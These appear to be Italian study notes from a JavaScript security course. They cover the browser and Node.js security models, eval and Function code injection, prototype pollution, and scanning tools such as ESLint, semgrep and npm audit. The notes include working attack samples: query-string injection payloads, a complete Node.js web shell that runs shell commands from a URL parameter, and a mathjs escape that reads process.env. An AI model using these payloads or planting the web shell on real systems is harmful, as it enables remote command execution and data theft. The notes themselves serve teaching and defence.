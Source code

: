 # Javascript security

Il web è pericolo, esistono ___Attackers___ capaci e motivati, il codice e le configurazioni spesso presentano ___vulnerabilities___ che portano a ___data breaches___ (furti di dati o abuso di funzionalità) o a rottura del server (denial of service DOS)

## Javascript security model
Ogni applicazione ha generalmente una architettura composta da tre layer, browser, server, database. Javascript può essere utilizzato sui primi due (se viene bucata la parte node si può accedere al data store con un data breach che coinvolge molti utenti). Se viene bucata la parte FE il problema è di solito limitato ad un singolo utente.

### Browser
Il browser scarica il codice, html, css e js per ogni tab, ma il browser esegue ogni sito in un sandbox (processo separato dell'OS) quindi un sito non può accedere ai dati di un altro website. L'uso di siti che scaricano risorse protetti dal protocollo HTTPS e usando Subresource Integrity (SRI) prevengono l'injecting di codice dannoso nei siti da parte di attackers. Il codice Javascript che gira nel browser non può accedere a risorse locali (file, device, reti locali), può utilizzare solo browser API e non può accedere a dati di altri siti 

### Node.js
Node.js a differenza del browser può accedere a risorse locali, a device ed a reti locali, quindi se viene bucato può portare a grossi problemi. E' essenziale fare un input data validation il più possibile severa e controllare che il formato (tipo) di ogni dato sia corretto. 

## Dynamic type system vulnerabilities
___La natura dinamica di Javascript può portare a bug di sicurezza___. Ad esempio il dinamic type system può essere un problema che porta a rivelazioni non intenzionali di informazioni o altri bug di sicurezza, basta cambiare il tipo di una variabile ed avere controlli che non utilizzano lo strict mode e ci può essere un problema.  

## Code injection attacks
___Javascript può invocare il Javascript engine a runtime___. Se un attacker manda un payload malevolo con all'interno del codice che può essere eseguito mischiato a dati, l'applicazione che gira nel server parsa questi dati e se c'è una vulnerabilità legata ad esecuzione di codice l'applicazione esegue il codice malevolo fornito dall'attacker

Il codice javascript può essere caricato da WEB, files o input di utente e variabili del programma. Funzioni non sicure sono spesso chiamate ___sinks___
```javascript

const expression = "(1+1)*2";   // user input

const result = eval(expression) // parse, compile, execute

console.log(result) // 4,
console.log(typeof result) // number,

// 1) si può usare eval che accede al global e current scope
eval(code)                // invocazione diretta
const evil = eval(code)() // invocazione indiretta

// 2) si può eseguire codice anche tramite la Function constructor, che dà accesso al global scope
f = new Function('param', code)
f('argument') // si invoca la funzione

// 3) esiste una versione "insicura" di setTimeout, setInterval che esegue codice dopo uno specificato delay
```

L'idea è quella di controllare gli input con validazione e sanitization e di non mettere nel codice  `eval()`, `new Function` e guardare che le librerie third party siano sicure (non utilizzino tali funzioni).

```javascript
// se all'interno del query str mettiamo
// e all'interno del codice si fa uso di eval o new Function si crasha il sistema
param=process.exit(99)

// oppure mandando indietro i dati
param=res.send(JSON.stringify(users))
```
Si può mandare del codice che starta un altro server su una porta differente che esegue su quel server comandi linux (come una WEB SHELL) mandati come query string parameters:
```javascript
require('http').createServer(function (req, res) {
    res.writeHead(200, { "Content-Type": "text/plain" });
    require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function (e, s, st) {
        res.end(s);
    });
}).listen(8000) // si cambia porta

// si usa localhost:8000/?cmd=ls per vedere tutti i file sul server

// ESEMPIO:
const math = require('mathjs')
math.eval('3+4*4')      // espressione matematica
math.eval('sqrt(-4'))   // access to function
math.eval('sgrt.constructor("return process.env")()');
```

## Prototype pollution
Tramite l'ereditarietà prototipale, è possibile modificare il comportamento degli oggetti figli. Ogni oggetto ha un parent Object da cui eredita proprietà: se gli attackers modificano gli oggetti che formano la catena dei prototipi possono alterare il comportamento del codice in maniere dannose e far crashare il codice.
```javascript
 
const parent = {a:1}

const child = Object.create(parent)
console.log(child.a)                        // 1
console.log(child.__proto__ === parent)    // true
```

Esempio di prototype pollution:
```javascript

const user = {name:'Lorenzo'}

const malicious = {isAdmin: true}
user['__proto__'] = malicious 
console.log(user.isAdmin);  // true -> Escalation of privilege
``` 

Degli indizi di prototype pollution possono essere:
- mutazioni di proprietà con key/value no sicuri
- merge di oggetti ricorsivi
- copie di oggetti
- accesso di proprietà tramite path

Per evitare il prototype pollution si usa in genere la validazione tramite Json schema, frizzare il prototype tramite `Object.freeze` oppure creare oggetti senza protoype con `Object.create(null,...)` oppure usare Map al posto di `{}`.

## Javascript security testing tools
Tramite degli strumenti automatizzati di Static analysis si previene l'uso di funzioni non sicure, scoprire  prototype pollution e scoprire librerie esterne vulnerabili. Si usano:
- SAST: static application (sul codice) security testing
    - ESlint
    - semgrep (open source)
- DAST: Dynamic application (runnig application) security testing
    - Owasp ZAP
- IAST: Interactive application security testing

ESLint ((--saveDev) permette di eseguire una code analysis che trova bugs e errori nel codice tramite il parsing dinamico del codice ed è basata su coding style ed è integrato in IDE.

Usando Unit test si previene il prototype pollution.

Tra gli strumenti di dependency management si ricorda: 
- `npm audit` che scannerizza le dipendenze per vulnerabilità
- Retire.js ()
- Dependency-Track (open source)
- Snyk (open source)

``` bash
& npm list  # si vede le librerie
& npm audit # trova le vulnerabilità
& npm i lodash@latest # si aggiornano le dipendenze vulnerabili all'ultima version
``` 

# Links:

[corso](https://app.pluralsight.com/library/courses/javascript-security-best-practices/table-of-contents)